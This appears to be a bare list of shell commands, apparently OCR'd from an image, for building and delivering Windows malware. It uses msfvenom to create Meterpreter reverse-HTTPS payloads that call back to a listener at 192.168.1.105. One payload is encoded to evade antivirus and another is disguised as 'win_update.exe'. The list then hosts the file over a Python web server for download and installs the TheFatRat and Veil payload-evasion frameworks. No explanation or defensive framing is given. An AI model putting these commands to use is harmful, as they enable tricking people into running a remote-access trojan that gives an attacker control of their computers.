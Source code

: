 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/win_update.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh

sudo ./fatrat

cd ~
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
sudo ./config/setup.sh --force

sudo veil

sudo ln -s /home/ray_king11/Veil/Veil.py /usr/local/bin/veil


